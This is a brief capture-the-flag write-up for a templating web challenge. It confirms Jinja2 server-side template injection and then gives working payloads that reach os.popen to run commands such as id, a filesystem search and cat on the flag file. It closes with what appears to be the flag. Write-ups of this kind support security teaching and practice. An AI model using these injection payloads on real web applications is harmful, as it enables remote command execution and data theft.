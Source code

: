 # Description 
I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

# Solution : 
- Nothing given as source , try `{{7*7}}` to confirm Jinja2
- we somehow have to get the flag.txt ( most prolly ) 
- {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }} 

se pta chala we have root access now the payload was : 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('find / -name *flag* 2>/dev/null').read() }}

 
gave us /challenge/flag  
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /challenge/flag').read() }}


 nZ^&@q5&sjJHev0

